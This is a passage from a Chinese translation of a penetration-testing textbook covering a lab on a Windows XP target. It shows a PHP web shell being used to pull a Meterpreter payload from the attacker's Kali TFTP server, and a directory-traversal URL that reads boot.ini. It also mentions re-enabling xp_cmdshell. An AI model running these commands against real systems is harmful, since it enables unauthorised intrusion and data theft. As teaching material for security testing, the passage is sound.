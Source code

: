 结果如 图 8-3 所示。

![代码执行](img/httpatomoreillycomsourcenostarchimages2030390.png.jpg)图 8-3. 代码执行

### 使用 TFTP 下载文件

前面的步骤为我们提供了一个具有系统权限的 shell，我们通过上传一个更复杂的 PHP 脚本来“升级”它。但我们不需要创建一个非常长且复杂的 SQL `SELECT` 查询，我们可以在 Kali 机器上托管一个文件，然后使用我们的 PHP shell 将其拉取到 Web 服务器。在 Linux 系统中，我们可以使用 `wget` 从命令行下载文件。这个功能在 Windows 中显得格外缺失，但在 Windows XP 上我们可以使用 TFTP。让我们用它来上传上一节的 *meterpreter.php*。

### 注意

TFTP 不是唯一可以在非交互命令行访问下传输文件的方式。事实上，一些较新的 Windows 系统默认没有启用 TFTP。你还可以通过 `-s` 选项让 FTP 从文件中读取设置，或者在最新的 Windows 操作系统上使用脚本语言，如 Visual Basic 或 Powershell。

我们可以使用 Atftpd TFTP 服务器在我们的 Kali 系统上托管文件。以守护进程模式启动 Atftpd，从 *meterpreter.php* 脚本所在的位置提供文件。

```
root@kali:~# **atftpd --daemon --bind-address 192.168.20.9 /tmp**
```

在 *shell.php* 脚本中设置 `cmd` 参数，如下所示：

```
http://192.168.20.10/shell.php?cmd=tftp 192.168.20.9 get meterpreter.php
C:\\xampp\\htdocs\\meterpreter.php
```

这个命令应该会通过 TFTP 将 *meterpreter.php* 拉取到目标的 Apache 目录，如 图 8-4 所示。

![通过 TFTP 传输文件](img/httpatomoreillycomsourcenostarchimages2030392.png)图 8-4. 通过 TFTP 传输文件

现在我们可以浏览到 *[`192.168.20.10/meterpreter.php`](http://192.168.20.10/meterpreter.php)* 来打开一个 Meterpreter shell。（在执行脚本之前，确保重新启动处理程序以捕捉 Meterpreter 连接。）正如你所看到的，尽管我们使用了不同于通过 WebDAV 上传文件的攻击方法，但最终我们到达了同一个地方：我们通过 Web 服务器利用其对 MySQL 服务器的访问权限上传文件，获得了一个 Meterpreter shell。

现在，让我们看看如何攻击 Windows XP 系统上的另一个 Web 服务器。

### 注意

这并不是我们利用数据库访问的唯一方式。例如，如果你发现了一个 Microsoft MS SQL 数据库，你可能能够使用 `xp_cmdshell()` 函数，它充当内建的系统命令行。出于安全考虑，这个函数在新版 MS SQL 中是禁用的，但具有管理员权限的用户应该能够重新启用它，从而在不上传任何东西的情况下获得 shell 访问权限。

## 下载敏感文件

请回顾 第六章，我们在端口 3232 上的 Zervit 服务器存在一个目录遍历问题，允许我们在没有身份验证的情况下从远程系统下载文件。我们可以通过浏览器使用以下 URL 下载 Windows 的 *boot.ini* 配置文件（以及其他文件）：

```
http://192.168.20.10:3232/index.html?../../../../../../boot.ini
```
